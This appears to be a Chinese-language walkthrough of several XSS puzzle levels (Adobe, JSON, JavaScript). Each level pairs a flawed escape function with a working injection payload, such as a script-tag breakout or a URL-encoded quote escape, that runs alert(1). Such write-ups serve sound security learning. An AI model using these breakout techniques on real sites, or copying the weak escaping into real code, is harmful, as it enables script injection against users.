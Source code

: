 ```html
");alert(1|"
```
天才般的Javascript（劝退）
```javascript
> 1 + ""
< "1"
> 1 - ""
< 1
```

<a id="a002"></a>
### Adobe (14)
```javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```
全局替换了`"`为`\"`，就是说转义了双引号而没有转义转义字符`\`，也可以用`</script>`标签闭合，构造payload如下
```html
\");alert(1)//
```
或者
```html
</script><script>alert(1)//
```

<a id="a003"/></a>
### JSON (27)
```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```
使用了`JSON.stringify()`函数对`s`进行处理，该函数会对双引号`"`和转义字符`\`进行转义，没有对`< > ' /`进行处理。那么闭合script标签，创建一个新的script 标签来执行alert(1)，用`//`注释掉多余的字符串，payload如下
```html
</script><script>alert(1)//
```

<a name="a004"/></a>
### JavaScript (15)
```javascript
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);

  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
```
payload
```html
%22);alert(1)//
```
`%22`是双引号`"`的URL编码，利用```javascript:```伪协议支持URL编码
Output
```html
<a href=javascript:console.log("%22);alert(1)//")></a>
```
